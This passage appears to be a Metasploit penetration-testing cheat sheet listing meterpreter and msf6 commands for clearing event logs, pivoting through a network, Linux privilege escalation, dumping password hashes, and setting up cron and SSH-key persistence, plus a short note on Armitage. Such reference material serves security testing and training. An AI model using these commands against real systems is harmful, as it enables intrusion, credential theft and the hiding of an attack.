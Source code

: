 #### Clearing Tracks

```
meterpreter > clearev
```

#### Pivoting

```
meterpreter > run autoroute -s <subnet>
msf6 > use auxiliary/scanner/portscan/tcp
meterpreter > portfwd add -l <localPort> -p <targetPort> -r <TargetIP>
```

---

### Linux Post Exploitation

#### Modules

```
msf6 > use post/linux/gather/enum_config
msf6 > use post/linux/gather/enum_network
msf6 > use post/linux/gather/enum_users_history
```

#### Privilege Escalation

```
msf6 > use exploit/unix/local/chkrootkit
```

#### Hashdump

```
msf6 > use post/linux/gather/hashdump
```

#### Persistence

```
msf6 > use exploit/linux/local/cron_persistence
msf6 > use post/linux/manage/sshkey_persistence
```

---

### GUI with Armitage

- Armitage provides a graphical interface for MSF.
    
- Supports visualization, automated scanning, exploitation, and post-exploitation.
    
- Requires PostgreSQL and Metasploit backend services.
    

---

